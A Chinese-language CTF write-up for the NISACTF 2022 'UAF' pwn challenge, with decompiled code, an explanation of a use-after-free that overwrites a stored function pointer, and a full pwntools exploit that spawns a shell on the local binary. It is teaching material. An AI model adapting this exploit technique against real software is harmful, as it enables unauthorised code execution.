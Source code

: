 ```yaml
---
title: '[NISACTF 2022]UAF'
date: 2024-04-28 13:00:00 +0800
categories: [uaf]
tags: [ctf,pwn]
---
```

# [[NISACTF 2022]](https://www.nssctf.cn/problem/2161)UAF

```shell
pwn: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=85bd87e16a35c0c05064a1a0938f6115b8b3b2be, not stripped
```

> $ file pwn

```shell
[*] '/home/bamuwe/NISACTF_2022_UAF/pwn'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

> $ checksec pwn

```c
int create()
{
  int result; // eax
  int v1; // ebx
  char *v2; // eax

  printf("you are creating the %d page\n", i);
  result = i;
  if ( i >= 0 )
  {
    result = i;
    if ( i <= 9 )
    {
      v1 = i;
      (&page)[v1] = malloc(8u);
      if ( i )									// 判断点
      {
        if ( i <= 0 || i > 9 )
        {
          return puts("NO PAGE");
        }
        else
        {
          puts("Good cretation!");
          return ++i;
        }
      }
      else
      {
        v2 = page;
        *page = 'oaig';                         // giao
        v2[4] = 0;
        *(page + 1) = echo;						// 在堆中存贮了echo()的地址
        puts("The init page");
        return ++i;
      }
    }
  }
  return result;
}
```

> create()函数

```c
int __cdecl NICO(char *command)
{
  return system(command);
}
```

> 后门函数NICO()

```c
unsigned int del()
{
  int v1; // [esp+8h] [ebp-10h] BYREF
  unsigned int v2; // [esp+Ch] [ebp-Ch]

  v2 = __readgsdword(0x14u);
  puts("Input page");
  __isoc99_scanf("%d", &v1);
  if ( v1 < 0 || v1 > i )
    puts("NO PAGE");
  else
    free((&page)[v1]);
  return __readgsdword(0x14u) ^ v2;
}											// 没有清空指针
```

> del()函数

```c
unsigned int show()
{
  int v1; // [esp+8h] [ebp-10h] BYREF
  unsigned int v2; // [esp+Ch] [ebp-Ch]

  v2 = __readgsdword(0x14u);
  puts("Input page");
  __isoc99_scanf("%d", &v1);
  if ( v1 )                                     // v1=0
  {
    if ( v1 <= 0 || v1 > i )
      puts("NO PAGE");
    else
      echo((&page)[v1]);
  }
  else
  {
    (*(page + 1))(page);                        // 利用点
  }
  return __readgsdword(0x14u) ^ v2;
}
```

> show()函数

交互函数：

```python
def add():
    io.sendlineafter(b':',b'1')
    
def edit(idx,text):
    io.sendlineafter(b':',b'2')
    io.sendlineafter(b'page\n',str(idx))
    io.sendlineafter(b'strings\n',text)

def free(idx):
    io.sendlineafter(b':',b'3')
    io.sendlineafter(b'page\n',str(idx))

def show(idx):
    io.sendlineafter(b':',b'4')
    io.sendlineafter(b'page\n',str(idx))
```

程序逻辑：

1. `add()`堆块的时候，如果创建的是第一块`chunk0`则往`chunk0+1`的位置写入`echo()`的地址
2. del()并没有删除指针
3. `show()`执行时，如果是`chunk1-9`非零`chunk`，则`echo((&page)[v1]);`，如果是`chunk0`，则`(*(page + 1))(page); `，正常情况下是执行`echo(page)`

利用思路：

1. 程序存在`UAF`，所以可以先申请`chunk0`然后释放再申请，就可以获得两个指针`*chunk0,*chun1`都指向同一块内存区域

   ```python
   add()   #0
   free(0)
   add()   #1
   ```

   ![image-20240428204547865](./../../AppData/Roaming/Typora/typora-user-images/image-20240428204547865.png)

   重新申请的时候由于`i`的值没有重置`（i=1）`，所以不会重新向`chunk`中写入`echo`的地址，我们也可以发现，此时`show(0)`是失效的

   ![image-20240428204716350](./../../AppData/Roaming/Typora/typora-user-images/image-20240428204716350.png)

2. 只有在`chunk0`上才能执行我们的利用点

![image-20240428203145487](./../../AppData/Roaming/Typora/typora-user-images/image-20240428203145487.png)

3. 我们通过`*chunk1`修改`chunk0/1`上的内容为`sh\x00\x00`,我们要考虑栈平衡填充，同时修改`page+1`为后门函数地址，构造`NICO(sh)`

   ```python
   edit(1,b'/sh\x00'+p32(0x8048642))
   show(0)
   ```

___

exp:

```python
from pwn import *
io = gdb.debug('./pwn')

def add():
    io.sendlineafter(b':',b'1')
    
def edit(idx,text):
    io.sendlineafter(b':',b'2')
    io.sendlineafter(b'page\n',str(idx))
    io.sendlineafter(b'strings\n',text)

def free(idx):
    io.sendlineafter(b':',b'3')
    io.sendlineafter(b'page\n',str(idx))

def show(idx):
    io.sendlineafter(b':',b'4')
    io.sendlineafter(b'page\n',str(idx))
    
add()   #chunk0
free(0)
add()   #chunk1
edit(1,b'sh\x00\x00'+p32(0x8048642))
show(0)

io.interactive()
```

